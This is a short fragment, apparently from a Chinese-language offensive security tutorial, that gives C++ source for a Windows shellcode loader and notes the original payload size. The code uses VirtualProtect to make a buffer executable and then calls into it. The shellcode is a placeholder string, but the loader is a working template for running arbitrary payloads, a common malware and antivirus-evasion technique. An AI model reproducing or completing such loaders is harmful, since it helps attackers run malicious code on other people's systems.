 ![](/img/bae881deb4bd31f0a9bae8e76b42317f.jpg)

### 源码如下：
```cpp
# include <windows.h>
int main(void)
{
char *shellcode = (char *)"Micropoor_shellcode"; 

DWORD Micropoor_shellcode;
BOOL ret = VirtualProtect(shellcode, strlen(shellcode),
PAGE_EXECUTE_READWRITE, &Micropoor_shellcode);
if (!ret) {
return EXIT_FAILURE;
}
((void(*)(void))shellcode)();
return EXIT_SUCCESS;
}
```

**原始shellcode_payload大小如下：**
75776字节
